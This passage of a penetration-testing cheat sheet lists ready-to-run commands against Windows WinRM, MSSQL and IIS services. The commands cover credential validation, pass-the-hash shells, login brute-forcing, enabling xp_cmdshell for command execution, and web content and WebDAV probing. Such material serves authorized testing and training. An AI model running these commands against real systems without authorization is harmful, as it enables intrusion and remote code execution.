 4) WinRM (5985/5986)
```bash
# Probe
nmap -p5985,5986 --script http-title,http-headers $TARGET

# Validate creds and execute a command
crackmapexec winrm $TARGET -d $DOMAIN -u $USER -p "$PASS" -x "whoami"

# Interactive PowerShell if allowed
evil-winrm -i $TARGET -u $USER -p "$PASS"
# With NTLM hash (if supported by your Evil-WinRM build)
# evil-winrm -i $TARGET -u $USER -H 'NTLMHASH'
```

5) MSSQL (1433)
```bash
# Discovery and weak creds
nmap -p1433 --script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password --script-args=mssql.instance-all $TARGET
# (Optional brute — use caution)
# nmap -p1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=passwords.txt $TARGET

# SQL auth (e.g., sa)
impacket-mssqlclient sa:'Password1!'@$TARGET

# Windows auth (domain user)
impacket-mssqlclient $DOMAIN/$USER:"$PASS"@$TARGET -windows-auth

# Enable and use xp_cmdshell (inside mssqlclient prompt)
# SQL> EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
# SQL> EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
# SQL> xp_cmdshell 'whoami';
```

6) IIS / HTTP(S) (80/443)
```bash
# Fingerprint
whatweb http://$TARGET

# IIS/WebDAV checks and enumeration
nmap -p80,443 --script http-server-header,http-title,http-headers,http-methods,http-webdav-scan,http-enum $TARGET
# WebDAV vulns (legacy)
nmap -p80 --script http-iis-webdav-vuln $TARGET

# Content discovery
gobuster dir -u http://$TARGET -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x asp,aspx,txt,config,bak
# or
feroxbuster -u http://$TARGET -x asp,aspx,txt,config,bak -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

# WebDAV test
davtest -url http://$TARGET
```
